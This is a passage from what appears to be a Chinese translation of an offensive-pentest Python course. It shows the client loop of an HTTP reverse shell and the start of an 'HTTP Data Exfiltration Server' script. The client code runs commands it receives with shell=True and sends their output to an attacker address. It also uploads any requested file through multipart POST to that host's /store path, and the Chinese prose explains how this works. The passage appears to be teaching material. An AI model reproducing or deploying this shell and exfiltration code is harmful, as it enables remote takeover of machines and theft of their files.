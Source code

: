 ```
    if 'terminate' in command:
        break # end the loop

# Now similar to what we have done in our TCP reverse shell, we check if file exists in the first place, if not then we 
# notify our attacker that we are unable to find the file, but if the file is there then we will :-
# 1.Append /store in the URL
# 2.Add a dictionary key called 'file'
# 3.requests library use POST method called "multipart/form-data" when submitting files

#All of the above points will be used on the server side to distinguish that this POST is for submitting a file NOT a usual command output
#Please see the server script for more details on how we can use these points to get the file

    elif 'grab' in command:

        grab,path=command.split('*') # split the received grab command into two parts and store the second part in path variable

        if os.path.exists(path): # check if the file is there

            url = 'http://10.0.2.15/store' # Appended /store in the URL
            files = {'file': open(path, 'rb')} # Add a dictionary key called 'file' where the key value is the file itself
            r = requests.post(url, files=files) # Send the file and behind the scenes, requests library use POST method called "multipart/form-data"

        else:
            post_response = requests.post(url='http://10.0.2.15', data='[-] Not able to find the file !' )

    else:
        CMD = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stdout.read() )
        post_response = requests.post(url='http://10.0.2.15', data=CMD.stderr.read() )

    time.sleep(3)
```

在这里，我们将执行与 TCP 套接字中相同的过程。如果我们从攻击者机器收到一个 `grab` 命令，我们将把这个命令分成两部分，第二部分包含我们要抓取的文件的路径或目录。接下来，我们将检查该文件是否存在。如果没有，我们会立即通知服务器。现在，如果文件确实存在，请注意我们在 URL 中添加了 `/store`，`url = 'http://10.0.2.15/store'`，作为一个标识，表示我们将传输的是文件而不是普通的 `cmd` 输出，因为两者都使用 `POST` 方法传输数据。所以，比如说，当我们发送一个文件，假设是 `x.doc`，我们将带有 `/store` 的 URL 发送它。另外，`Requests` 库使用了一种特殊的 `POST` 方法，叫做 `multipart/form-data`，来提交或发送文件。

# 服务器端

现在，在服务器端，我们导入了一个新的库叫做`cgi`。这个库用于处理接收到的文件并将其存储在本地。以下是服务器端的脚本：

```
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn https://jo.linkedin.com/in/python2

# HTTP Data Exfiltration Server

import BaseHTTPServer

import os, cgi

HOST_NAME = '10.0.2.15' 
PORT_NUMBER = 80 

class MyHandler(BaseHTTPServer.BaseHTTPRequestHandler):
```